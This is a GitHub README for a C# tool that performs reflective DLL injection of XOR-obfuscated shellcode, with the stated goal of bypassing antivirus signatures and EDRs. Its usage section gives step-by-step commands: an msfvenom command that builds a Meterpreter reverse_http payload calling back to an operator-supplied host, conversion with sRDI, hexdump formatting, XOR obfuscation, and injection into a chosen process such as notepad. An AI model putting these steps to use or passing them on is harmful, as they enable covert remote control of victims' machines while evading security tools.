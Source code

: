 # XORed Reflective DLL Injection

This tool written in C# with the purpose to perform Reflective DLL Injection with obfuscated (XOR) shellcode and bypass some Anti-Virus signatures and EDRs.

The tool consists the following projects:

* Xoring - Takes a key and then xoring the shellcode.
* XORedReflectiveDLL - Process Injection Loader for the obfuscated shellcode.

### Usage

	1) Generate DLL using msfvenom. (Feel free to use any tool you want to generate DLL. e.g: cobalt strike or write your custom DLL)
		msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f dll > reverse_http.dll
	2) Use [sRDI](https://github.com/monoxgas/sRDI) to convert DLL to position independent shellcode.
		python3.6 ConvertToShellcode.py reverse_http.dll
	3) Execute the below command to convert .bin file to a compatible C# byte array format:
		hexdump -v -e '1/1 "0x%02x,"' reverse_http.bin | sed 's/.$//' > reverse_http_bytearray.txt
	4) Copy the byte array shellcode from the reverse_http_bytearray.txt and paste it in the Xoring.cs file at line 29. Make sure to paste it inside the curly brackets.
	5) Change the XOR key at line 26.
	6) Build solution and run the Xoring.exe to obfuscate the shellcode.
	7) Open the file created (It should be similar to: xored_shellcode_*current date*.txt), copy the byte array and paste it in the Reflective.cs file at line 150.
	8) Change the XOR key. (Make sure that the key is the same with the one that you used in Xoring.cs file before.)
	9) Change target process. e.g: notepad, iexplore, etc..etc..
	10) Build the program and run XORedReflectiveDLL.exe

### Credits

Credits goes to [monoxgas](https://github.com/monoxgas/sRDI) for the sDRI tool that convert DLLs to position independent shellcode.\
[Stephen Fewer](https://github.com/stephenfewer/ReflectiveDLLInjection) for the Reflective DLL injection technique.